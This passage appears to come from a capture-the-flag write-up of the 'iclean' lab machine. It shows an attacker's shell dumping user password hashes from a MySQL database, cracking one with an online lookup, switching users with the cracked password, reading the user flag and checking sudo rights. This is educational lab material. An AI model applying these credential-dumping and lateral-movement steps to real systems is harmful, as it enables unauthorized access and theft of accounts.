 ```sql
| performance_schema |
+--------------------+
3 rows in set (0.01 sec)

mysql> use capiclean
use capiclean
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.00 sec)

mysql> select * from users;
select * from users;
```
![](/assets/images/Screenshot from 2024-08-03 17-37-27.png)
admin ---- 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51
consuela ---- 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa
Let's crack the `consuela`password in [crackstation](https://crackstation.net/) and you will get the password:
`simple and clean`.
`admin`password is not crack-able.
Then exit `mysql`and change the user to `consuela`:
```bash
mysql> exit
exit
Bye
www-data@iclean:/opt/app$ su consuela
su consuela
Password: simple and clean

consuela@iclean:/opt/app$ $ cd /home/consuela
cd /home/consuela
consuela@iclean:~$ ls
ls
user.txt
consuela@iclean:~$ cat user.txt
cat user.txt
05fa5137fbd54cfbdb6180d933f83c89
```
***
user flag: 05fa5137fbd54cfbdb6180d933f83c89
***
Learn what we can run as root:
```bash
$ sudo -l
sudo -l
[sudo] password for consuela: simple and clean

Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

```